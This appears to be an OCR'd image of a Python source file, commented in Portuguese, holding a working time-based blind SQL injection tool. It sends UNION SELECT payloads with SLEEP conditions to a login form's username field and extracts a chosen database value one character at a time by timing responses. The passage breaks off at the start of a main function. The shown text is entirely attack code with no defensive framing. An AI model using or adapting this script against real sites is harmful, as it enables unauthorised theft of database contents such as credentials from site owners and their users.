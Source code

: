     """Envia a requisição com payload e mede o tempo de resposta."""

    dados = {

        param_user: payload,

        param_pass: fixed_password

    }

    try:

        inicio = time.time()

        requests.post(url, data=dados, timeout=sleep_time + 1)

        fim = time.time()

        return (fim - inicio) >= sleep_time

    except requests.exceptions.Timeout:

        return True

  

def extrair_dado():

    """Faz brute-force time-based para extrair caractere por caractere."""

    resultado = ""

    print(f"[+] Extraindo: {sql_target}")

    while True:

        achou = False

        for c in string.printable:

            tentativa = resultado + c

            payload = f"' UNION SELECT 1,2,IF(SUBSTRING({sql_target},1,{len(tentativa)})='{tentativa}',SLEEP({sleep_time}),NULL) -- -"

            print(f"[?] Testando: {tentativa}", end="\r")

            if enviar_payload(payload):

                resultado += c

                print(f"[+] Progresso: {resultado}")

                achou = True

                break

        if not achou:

            print(f"[!] Resultado final: {resultado}")

            break

  

def main():
